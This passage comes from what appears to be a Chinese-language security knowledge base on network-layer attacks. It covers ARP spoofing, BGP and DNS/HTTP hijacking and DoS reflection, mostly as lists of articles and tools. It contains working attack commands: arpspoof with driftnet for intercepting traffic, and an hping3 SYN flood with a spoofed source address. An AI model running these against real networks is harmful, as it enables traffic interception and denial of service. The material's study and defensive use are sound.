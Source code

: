 - 相关工具
    - arpspoof
        ```bash
        # kali 自带,无需安装
        echo 1 > /proc/sys/net/ipv4/ip_forward          # 开启路由功能
        arpspoof -i eth0 -t 192.168.1.91 192.168.1.1    # 进行 arp 欺骗
        driftnet -i eth0                                # 运行 driftnet 截获图片
        ```

#### L3

**BGP**
- **相关文章**
    - [浅析通过操纵BGP Communities影响路由选路](https://www.freebuf.com/articles/network/223879.html)
    - [关于BGP安全那些事儿](https://mp.weixin.qq.com/s/rZunI6Uxyks2TbSarsqR8A)

#### L4+

**DNS劫持**

DNS 协议属于 OSI 第七层，DNS 劫持指控制域名解析权限，比如访问 google.com 解析到了 baidu.com 的 IP，比如通过 iframe 打开 google.com

**HTTP劫持（内容劫持）**

在和网站交互过程中的劫持了请求，比如在右下角出现广告弹窗（插入 js 或 dom）

---

### DOS

**相关文章**
- [DDoS攻防原理及实战](https://yq.aliyun.com/promotion/173)
- [创业耗费百万,为何DDoS如此要命Part 1](https://www.freebuf.com/articles/network/183182.html)
- [Memcached DRDoS攻击趋势分析](https://www.freebuf.com/articles/network/174180.html)
- [[技术分享]旧瓶装新酒——memcache作为DRDOS反射放大器](https://www.anquanke.com/post/id/87233)
- [浅析各类DDoS攻击放大技术](https://www.freebuf.com/articles/network/76021.html)
- [反射DDOS攻击防御的一点小想法](https://www.freebuf.com/column/138163.html)
- [如何简单的防御syn攻击](https://www.freebuf.com/column/132945.html)
- [浅谈拒绝服务攻击的原理与防御 (1) :普通拒绝服务攻击](https://www.freebuf.com/articles/network/126702.html)
- [浅谈拒绝服务攻击的原理与防御 (2) :反射型DDOS](https://www.freebuf.com/news/127116.html)
- [浅谈拒绝服务攻击的原理与防御 (3) :反射DDOS攻击利用代码](https://www.freebuf.com/articles/network/127218.html)
- [浅谈拒绝服务攻击的原理与防御 (4) :新型DDOS攻击  Websocket和临时透镜](https://www.freebuf.com/news/127533.html)
- [浅谈拒绝服务攻击的原理与防御 (5) :NTP反射攻击复现](https://www.freebuf.com/articles/network/129288.html)
- [浅谈拒绝服务攻击的原理与防御 (7) :用Python和C实现syn flood攻击](https://www.freebuf.com/articles/network/130357.html)
- [军备竞赛：DDoS攻击防护体系构建](https://blade.tencent.com/blog/2018/12/25/ddos-defense.1/)
- [CPDoS: Cache Poisoned Denial of Service](https://cpdos.org/)
- [新的DDoS攻击手法来袭：TCP反射攻击技术分析](https://www.freebuf.com/articles/database/202401.html)
- [基于snmp的反射攻击的理论及其实现](http://drops.xmd5.com/static/drops/tips-2106.html)
- [DRDoS预警：WdbRPC与BACnet协议可被反射攻击利用](https://mp.weixin.qq.com/s/bG4w9i8E0Ltx0mYyKtTJaw)
- [什么是 DDoS 攻击？](https://www.cloudflare.com/zh-cn/learning/ddos/what-is-a-ddos-attack/)

**相关工具**
- [JuxhinDB/synner](https://github.com/JuxhinDB/synner) - 一个由 Rust 编写的 SYN flood DOS 工具
- [LOIC](https://sourceforge.net/projects/loic/)
- [llaera/slowloris.pl](https://github.com/llaera/slowloris.pl) - perl 语言写的 dos 脚本
- [locustio/locust](https://github.com/locustio/locust) - python 写的 ddos 工具
- [fatih4842/aSYNcrone](https://github.com/fatih4842/aSYNcrone) - 一个 SYN Flood DDoS 工具
- [ajmwagar/lor-axe](https://github.com/ajmwagar/lor-axe) - 多线程、低带宽消耗的 HTTP DoS 工具
- [LimerBoy/Impulse](https://github.com/LimerBoy/Impulse) - DoS 攻击工具包
- [rakyll/hey](https://github.com/rakyll/hey)
- Hping3
    ```bash
    hping3 -I eth0 -a 192.168.100.1 -S 192.168.100.254 -p 80 -i u1000  # 发起大量 SYN 连接,伪造源地址为 192.168.100.1,并使用1000微秒的间隔发送各个 SYN 包.